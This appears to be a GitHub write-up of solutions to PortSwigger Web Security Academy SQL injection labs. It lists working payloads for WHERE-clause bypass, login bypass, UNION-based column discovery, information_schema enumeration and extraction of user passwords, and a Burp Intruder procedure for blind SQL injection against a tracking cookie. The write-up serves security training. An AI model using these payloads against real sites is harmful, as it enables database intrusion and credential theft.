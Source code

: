 # SQL Injection LAbs
=====================================================================================
## APPRENTICE
=====================================================================================

-------------------------------------------------------------------------------------
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
-------------------------------------------------------------------------------------
SQL vuln in the address bar.
Payload →
```
web-security-academy.net/filter?category=Gifts' OR 1=1 --
```
-------------------------------------------------------------------------------------
### SQL injection vulnerability allowing login bypass
-------------------------------------------------------------------------------------

- The SQL injection vuln in the username field can be detected by entering a single coma (’) into it which produces a server side error on the application.
- This error is because we have disturbed the functionality of the sql query.

Payload →

Enter administrator’-- in the username filed and any random password.



Alternatevely, you can use burpsuit to intercept the request as well.
=====================================================================================
## PRACTITIONER  
=====================================================================================

-------------------------------------------------------------------------------------
### SQL injection UNION attack, determining the number of columns returned by the query
-------------------------------------------------------------------------------------

There is a chance of SQL Union injection in the url as the application is rendering a table of information which is probalby from a particular table in the db.

For SQL Union attack, the correct number of entries being requested in the orignal query is to be determined by the trial and error method which in this case is 3.
```
web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,NULL,NULL--
```
-------------------------------------------------------------------------------------
### SQL injection UNION attack, finding a column containing text
-------------------------------------------------------------------------------------

Hit and trial to find the number of columns in the default query.
![image](https://github.com/coder-de-coder/portswigger-academy-solutions/assets/108211570/27b99d53-31d9-4f6d-87de-130f15dc6258)

(BurpSuit ScreenShot shows that we hit the target with 3 NULLs)

Now try replacing each NULL one by one with the given random string in the lab using single quotes.

Payload =>
```
web-security-academy.net/filter?category=Accessories+UNION+SELECT+NULL,{Your string},NULL--
```
-------------------------------------------------------------------------------------
### SQL injection UNION attack, retrieving data from other tables
Payload ->
```web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username,+password+FROM+users--
```
-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------
### SQL injection UNION attack, retrieving multiple values in a single column
It can be tested that though the default query is fetching two columns but the first one cant be used as it is not of string type.

Now that we have only one entry to retrive two columns from the users table, we can use the CONCAT({query1}, {query2}) functionality of MySQL.

Payload ->
```web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+NULL,+CONCAT(username,password)+FROM+users--```
-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------
### SQL injection attack, listing the database contents on non-Oracle databases
First find out the number of columns being queried in the orignal req but using the follwoing payload (2 in this case).
```'+union+select+null,null--```
 Every SQL database has an information schema that contains the list of tables. Use the following payload to retrive that list of tables.
 This search for user tables in that list.
 ```'union+select+column_name,+null+from+information_schema.tables-- ```

 Now that you have found the exact name of the user table, use it to extract the exact column names out of it using the following payload
 ```'+union+select+column_names,+null+from+information_schema.columns+where+table_name="{user table name found in last step}" --```

 After finding the column names, use those to extract the usernames and passwords from the same table.

-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------
### Blind SQL injection with conditional responses
- Capture the homepage req in burpsuit and send to ***repeater.***
- Observe the TrackingID cookie and test it for blind SQLi using the following paylload →
```' AND '1'='1 ```

This shall render the term “Welcome back!” in the response and if the condition is changed to ‘1’=’2 , then it should not render the term. This confirms the presence of blind SQLi.

Now send the request to Intruder and use the following payload in the cookie section along with the same payload markers.
```ookie: TrackingId=0k9eqmdznTZaHkW7' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§a§;```

- Use the intruder in cluster bomb mode (read its description to know why), and add two payload sets →
    - First one having the counts of 1 to 20 (this is the length of the password).
    - Second one having letters a to z & number 0 to 9.

Start the attack and wait for it to complete.
Now filter the results acc to character length.
There will be 20 such entries which will be longer than the rest of the result.
Open response tab from any of theese 20 and search for the keyword “Welcome Back”, to make sure theese are the desired entries.
Note the payload value corresponding to these 20 entries and arrange them to get the password for the administrator.


-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------